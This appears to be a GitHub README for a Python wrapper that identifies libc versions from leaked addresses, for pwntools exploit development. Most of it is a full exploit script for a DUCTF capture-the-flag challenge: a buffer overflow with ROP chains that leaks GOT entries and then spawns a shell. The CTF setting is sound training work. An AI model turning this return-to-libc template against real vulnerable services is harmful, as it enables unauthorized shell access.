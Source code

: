 # libc-resolver

A python wrapper of the awesome project https://github.com/niklasb/libc-database, a project made to determine a libc library from its runtime addresses.

This wrapper is made for pwntools exploit development, all credits for the search engine goes to niklasb.

# How to use

Clone the project and add the folder to your PYTHONPATH env variable, then simply import the module and do:
```python
from libc_resolver import libc_resolve

libc = libc_resolve({"__libc_start_main": 0x7f31aad5cfc0, "puts": 0x7f31aadbd5a0}, choice=1)
print(libc.symbols["system"])
```

## Practical exemple

Expoloit code for the returntowhat challenge from DUCTF, a simple ROP:

```python
from pwn import *
import struct
from libc_resolver import libc_resolve

exe = context.binary = ELF('return-to-what')
context.terminal = "gnome-terminal -- bash -c".split(" ")

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REM:
        return remote("chal.duc.tf", 30003)
    else:
        return process([exe.path] + argv, *a, **kw)

gdbscript = '''
break *0x4011ac
'''.format(**locals())

io = start()
io.recvuntil("to?\n")
offset = 56

rop = ROP(exe)
rop.puts(exe.got["__libc_start_main"])
rop.main()

io.sendline("a" * offset + rop.chain())
leak = io.recvline()[:-1]
leak = leak + "\0" * (8 - len(leak))
libc_start_main = struct.unpack("<Q", leak)[0]

io.recvuntil("to?\n")
rop = ROP(exe)
rop.puts(exe.got["puts"])
rop.main()

io.sendline("a" * offset + rop.chain())
leak = io.recvline()[:-1]
leak = leak + "\0" * (8 - len(leak))
puts = struct.unpack("<Q", leak)[0]

print("libc_start_main: 0x%x" % libc_start_main)
print("puts: 0x%x" % puts)

lib = libc_resolve({"__libc_start_main": libc_start_main, "puts": puts}, choice=0)

io.recvuntil("to?\n")
rop = ROP(lib)
rop.execv(next(lib.search("/bin/sh\0")) , 0)
io.sendline("a" * offset + rop.chain())
io.interactive()
```
